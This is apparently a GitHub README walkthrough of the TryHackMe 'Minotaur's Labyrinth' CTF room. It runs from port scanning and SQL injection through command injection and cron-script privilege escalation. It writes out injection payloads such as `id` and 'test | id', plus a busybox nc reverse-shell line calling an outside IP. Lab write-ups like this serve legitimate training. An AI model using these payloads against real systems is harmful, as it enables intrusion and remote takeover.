


# Minotaur's Labyrinth CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Minotaur's Labyrinth** CTF challenge on [TryHackMe](https://tryhackme.com/room/labyrinth8llv). 
---

after scanning we see open ports: 21, 80, 443, 3306



in ftp I managed to get 3 hidden files including one flag, we also have few notes saying to look around


by looking at the web site on port 80 we see a login page


we can also find /js/login.js with some comments, if we take a look we see coded password for user Daedalus, we can decode it to get his password and login to user panel


we see some comment in panel source 


there is also /js/userlvl.js



by using simple SQLi we can get diffrent passwords


by using crackstation we found a few plain text passwords


we can do the same for `creatures` table


now we can try to login as those users, most interesting user is M!n0taur because we see other panel and additional info and another flag


we found secret echo-panel


if we input: `test` we will get the same output, but if we try: `" id;` we see some error message


few methods seem to work, we can use `` `id` `` or `test | id`


we can use this command to gain reverse shell as deamon

```
test | busybox nc 10.14.91.59 8888 -e /bin/bash
```


now we can grab user flag


linpeas found `/timers/timer.sh` and it seems odd and i remember that one note from ftp mentioned something about timer


the script mentions `/reminders/dontforget.txt`


we can see in pspy64 that the script is executed every minute


i added reverse shell inside /timers/timer.sh


now we have root access and root flag


# MACHINE PWNED
